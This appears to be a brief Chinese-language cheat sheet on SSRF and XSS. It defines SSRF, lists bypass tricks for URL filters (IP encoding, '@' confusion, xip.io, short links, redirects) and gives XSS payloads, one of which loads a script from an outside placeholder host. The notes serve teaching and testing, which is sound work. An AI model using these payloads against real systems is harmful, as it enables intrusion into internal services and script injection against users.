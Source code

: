 # SSRF&XSS
SRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

## 常用绕过 payload等

        使用@：http://A.com@10.10.10.10 = 10.10.10.10
        IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
        使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
        端口绕过：ip后面加一个端口
        xip.io：10.0.0.1.xip.io = 10.0.0.1
                www.10.0.0.1.xip.io = 10.0.0.1
                mysite.10.0.0.1.xip.io = 10.0.0.1
                foo.bar.10.0.0.1.xip.io = 10.0.0.1
        通过js跳转

# XSS

## 常见payload

```js
<script>alert(1);</script>
<img src=0 onerror=alert(1)>
"><script src=http://www.xxx.com/1.js></script>"
```
反射XSS:欺骗用户点击，可能会被浏览器过滤

## 其他资料

- https://xianzhi.aliyun.com/forum/topic/83/
- http://kuza55.blogspot.hk/2008/02/csrf-ing-file-upload-fields.html
